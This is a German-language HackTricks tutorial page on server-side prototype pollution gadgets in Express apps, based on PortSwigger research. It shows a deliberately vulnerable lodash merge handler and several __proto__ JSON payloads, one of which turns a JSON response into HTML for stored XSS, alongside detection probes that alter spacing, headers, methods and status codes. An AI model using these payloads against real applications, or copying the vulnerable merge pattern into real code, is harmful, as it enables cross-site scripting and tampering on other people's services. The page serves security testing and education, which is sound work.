 # Express Prototype Pollution Gadgets

{{#include ../../../banners/hacktricks-training.md}}

## XSS-Antworten bereitstellen

**Für weitere Details** [**sehen Sie sich die ursprüngliche Forschung an**](https://portswigger.net/research/server-side-prototype-pollution)

### Ändern Sie den JSON-Inhaltstyp in HTML

In einer Express-App, die eine **JSON-Inhaltstyp-Antwort** verwendet und ein JSON widerspiegelt:
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
In diesen Fällen ist XSS normalerweise nicht mit einem JSON-Inhaltstyp möglich. Mit Prototype Pollution können wir jedoch **Express verwirren, um eine HTML-Antwort bereitzustellen.** Diese Schwachstelle beruht darauf, dass die Anwendung **`res.send(obj)`** verwendet und den Body-Parser mit dem Inhaltstyp application/json nutzt.
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
Durch das **Verschmutzen** der **`body`** und **`_body`** Eigenschaften ist es möglich, **Express dazu zu bringen, den HTML-Inhaltstyp bereitzustellen** und die `_body`-Eigenschaft widerzuspiegeln, was zu gespeichertem XSS führt.

### UTF7 rendern

Es ist möglich, dass Express **UTF-7-Inhalte rendert mit**:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## Sichere Scanning-Techniken

### JSON-Räume

Die folgende PP wird Attribute innerhalb eines JSON einen zusätzlichen Raum geben, der die Funktionalität nicht beeinträchtigt:
```json
{ "__proto__": { "json spaces": " " } }
```
Dann sieht ein reflektiertes JSON so aus:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Das folgende PP-Gadget wird den Server dazu bringen, den HTTP-Header zurückzusenden: **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
Es erfordert, dass das **CORS-Modul installiert ist**.

### **OPTIONS-Methode**

Mit dem folgenden Payload ist es möglich, **eine Methode aus einer OPTIONS-Antwort zu verbergen**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Status**

Es ist möglich, den **zurückgegebenen Statuscode** mit dem folgenden PP-Payload zu ändern:
```json
{ "__proto__": { "status": 510 } }
```
### Fehler

Wenn Sie einem Prototypen mit einem primitiven Wert wie einem String zuweisen, führt dies zu einer **no-op-Operation, da der Prototyp ein Objekt sein muss**. Wenn Sie versuchen, ein Prototypobjekt dem `Object.prototype` selbst zuzuweisen, wird dies **eine Ausnahme auslösen**. Wir können diese beiden Verhaltensweisen nutzen, um **festzustellen, ob die Prototypverschmutzung erfolgreich war**:
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Reflektierter Wert

Wenn eine Anwendung ein Objekt in ihrer Antwort einfügt, kann das Erstellen eines Attributs mit einem **ungewöhnlichen Namen neben `__proto__`** aufschlussreich sein. Insbesondere wenn **nur das ungewöhnliche Attribut in der Antwort zurückgegeben wird**, könnte dies auf die Verwundbarkeit der Anwendung hinweisen:
```json
{ "unusualName": "value", "__proto__": "test" }
```
Darüber hinaus bietet in Szenarien, in denen eine Bibliothek wie Lodash verwendet wird, das Setzen einer Eigenschaft sowohl über Prototype Pollution (PP) als auch direkt im Objekt einen weiteren diagnostischen Ansatz. Wenn eine solche Eigenschaft in der Antwort weggelassen wird, deutet dies darauf hin, dass Lodash die Existenz der Eigenschaft im Zielobjekt überprüft, bevor es zusammenführt:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Sonstiges

### Punkte erlauben

Es gibt eine Option in Express, die es Ihnen ermöglicht, **Objekte aus Abfragezeichenfolgenparametern** zu **erstellen**.\
Sie könnten es definitiv in einer Fehler-**kette** verwenden, um eine **Prototype Pollution-Sicherheitsanfälligkeit** auszunutzen.
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` erstellt ein Objekt in Node.**

## Referenzen

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}
